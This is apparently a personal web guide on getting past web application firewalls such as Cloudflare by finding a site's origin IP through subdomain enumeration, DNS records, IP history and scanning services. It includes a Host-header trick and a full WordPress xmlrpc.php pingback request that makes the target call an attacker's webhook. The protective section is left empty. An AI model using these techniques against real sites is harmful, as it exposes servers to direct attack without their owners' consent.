 ```yaml
---
title: Firewall Bypassing - Databased Index
permalink: /waf-bypassing
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">

#### ⚠️ THIS GUIDE IN NO WAY ENDORSES ILLEGAL ACTIVITIES AND I AM NOT LIABLE FOR WHAT YOU DO WITH THE INFORMATION YOU READ HERE.THIS IS BUT A MERE GUIDE FOR PENTESTERS AND PEOPLE INTERESTED ON HOW TO KEEP THEIR WEBSITE SAFE ⚠️


### What is a firewall?
Firewalls, or WAFs ___(Web Application Firewall)___, are filters and rules of access that serve as a sort of "gateway" to keep your website secure. Basically keeping your website safe from threats and potential vulnerabilities that could be easily exploited if you otherwise didn't have a WAF. 

The most commonly used WAF is Cloudflare, for being easy to setup and maintain. But Cloudflare isn't all that secure as people may think and your common _"top 10 best firewalls to keep your website secure"_ may suggest.

Since it is one of the easiests WAFs to setup, it is also one of the easiests WAFs to bypass if you don't know how to setup your website correctly or you just don't have full access to the things you are managing on your website, which, in most cases, can paint a bright red target on your website's back.

### What are you looking for when bypassing a firewall?

A subdomain that's not being tunnelled through the WAF or the ___origin IP___ of the website, aka: the IP behind the firewall.

The firewall itself might have its own IP, which is the case for Cloudflare. The firewall's IP is not directly accessible.

### What can a bypass leave you vulnerable to?
It depends on how much information an attacker has on your website, if they already have found a potential vulnerability and the depth of understanding they may have on your website

This can vary from a simple XSS to a full blown Remote Code Execution vulnerability.

But anyway, you're probably not here to read my personal comments on firewalls and how they can give you a false sense of security at times.

Usually the only thing stopping an attacker from gaining complete access to your website is the firewall, which if not setup correctly, can be just a glass door waiting for a brick to be thrown through it.

So,
### How to bypass WAFs?

There are multiple ways to do that, and all of them are pretty easy, given the right conditions (which are usually the case).

#### <ins>Subdomain Method</ins>

This is the easiest one since it doesn't even involve interacting directly with the target, but instead just enumerating all of the target's subdomains, along with their IP addresses. In most cases, the website will just have an unprotected IP that can be accessed directly with no real issue

|Resources|Status|Price|
|---------|------|-----|
|[subdomainfinder.c99.nl](https://subdomainfinder.c99.nl/)|✅UP|Free|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
|[Anubis (tool)](https://github.com/jonluca/Anubis)|✅UP|Free|

In some cases the server will be setup in such a way that even if the unprotected IP is accessed directly, it will still show different results from the target. In such occasions, it ___might___ mean that the IP is being shared with other hosts.
In case of the IP being shared, the discrepancy in results can be easily circumvented by setting your Host request headers as the website's URL and not the IP itself.

FOR THE SITUATION DESCRIBED ABOVE, instead of doing:
```
POST /  HTTP 1.1
Host: <Target Unprotected IP>
```

Do

```
POST /  HTTP 1.1
Host: <Target URL(Without HTTPS)>
```

That way the IP can still be accessed directly if you search it up in your searchbar, but the server will be receiving requests for the protected URL instead, thus not only rendering the website's content but also verifying that the IP in fact belongs to that URL.

___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___

#### <ins>DNS Record Method</ins>
When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.

|Resources|Status|Price|
|---------|------|-----|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[dig](https://command-not-found.com/dig)|COMMAND|Free|

#### <ins>IP History Method</ins>
This method is also pretty easy. You can just get a list of the IPs that were used by the website along time. 

|Resources|Status|Price|
|---------|------|-----|
|[viewdns.info](https://viewdns.info/)|✅UP|Free|


#### <ins>Forensics Search Method</ins>
This basically involves searching up the domain on the following websites.  

|Resources|Status|Price|
|---------|------|-----|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|

#### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).

To bypass a WAF protecting a wordpress domain, the following method is followed:

```
POST /xmlrpc.php HTTP/1.1
Host: TARGET_URL
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>WEBHOOK</string>
  </value>
 </param>
 <param>
  <value>
   <string>VALID_POST_FROM_TARGET</string>
  </value>
 </param>
</params>
</methodCall>
```

This is an old one but incredibly still effective!

What the attacker does is basically:

> Replace the ```TARGET_URL``` with the url of the website.

> Replace ```WEBHOOK``` with a webhook that will be used to catch the pingback response

> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website

> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/

#### <ins>Fingerprinting WAFs</ins>


#### <ins>Protecting yourself</ins>
